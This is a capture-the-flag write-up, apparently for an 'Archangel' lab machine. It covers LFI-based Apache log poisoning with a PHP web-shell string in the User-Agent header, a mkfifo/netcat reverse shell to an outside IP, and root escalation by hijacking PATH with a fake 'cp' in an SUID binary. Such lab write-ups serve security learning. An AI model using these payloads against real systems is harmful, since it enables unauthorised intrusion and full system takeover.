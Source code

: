 ## Accessing apache2 access.logs
Now that we have found an LFI, our next target is to gain an reverse shell. For this we can look into the apache log file stored at `/var/log/apache2/access.log`.
![[archangel11.png]]
From the access logs it can be seen that along with the path that we are trying to access our User-Agent is also getting logged. We can add a PHP code in the User-Agent header using Burp Suite and with the help of that gain a reverse shell.

### Steps to get a Reverse Shell via User-Agent
1. Capture a request to `/test.php?view=/var/www/html/development_testing/..//..//..//log/apache2/access.log` in Burp Suite and send it to repeater.
![[archangel12.png]]

2. Add the following code somewhere in the `User-Agent` header value:
```php
<?php system($_GET['cmd']); ?>
```

3. Append `&cmd=whoami` to the GET request. Here, all that we are doing is passing `whoami` string to the `cmd` variable would get processed by the PHP code in the User-Agent and we would get the output of the command in the logged User-Agent value in the `access.log` file.
![[archangel13.png]]
When you send the request for the first time, you won't see anything in the output because the command has just been executed and what you are viewing is the copy of log file before the output of your command was written to it.

 Therefore, you need to send the same request again so that the output written previous can now be viewed.

4. Now, that we have found a way to run commands on the system. We can send a reverse shell payload using the same method and start a listener on our local machine.

**Reverse shell payload:**
```python
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.47.177 4444 >/tmp/f
```

**Start the netcat listener** - 
```python
nc -lvnp 4444
```


After giving in a lot of time and re-analyzing everything. We can see the answer was right in front of us. In the `backup` binary. The command `cp` is being called but without its full path being mentioned. So, we can create a fake `cp` executable in and prepend its location to `$PATH`. So, whenever `cp` is called our malicious binary gets executed instead of the original `cp` command. This can be done as:

![[archangel14.png]]

1. Create a fake `cp` file in `/tmp` directory and add the following code to it.
```bash
archangel@ubuntu:/opt/backupfiles$ cd /tmp
cd /tmp
archangel@ubuntu:/tmp$ touch cp
touch cp
archangel@ubuntu:/tmp$ echo "/bin/bash -p" > cp
echo "/bin/bash -p" > cp
archangel@ubuntu:/tmp$ cat cp
cat cp
/bin/bash -p
```
So, whenever the `cp` command is called `/bin/bash` would get executed with the permission of the effective user (in case of SUID binary, it would be `root`).

2. Make the file accessible and executable by all
```bash
archangel@ubuntu:/tmp$ chmod 777 cp
```

3. Prepend `/tmp` to `$PATH`
```bash
archangel@ubuntu:~/secret$ $PATH            
$PATH
bash: /usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin: No such file or directory
archangel@ubuntu:~/secret$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
archangel@ubuntu:~/secret$ $PATH
$PATH
bash: /tmp:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin: No such file or directory
```

4. Run the SUID binary
```bash
archangel@ubuntu:~/secret$ ./backup
./backup
root@ubuntu:~/secret# whoami
whoami
root
root@ubuntu:~/secret# cd /root
cd /root
root@ubuntu:/root# cat root.txt
```


## Archangel privilege escalation mind map
![[archangel_privesc.png]]
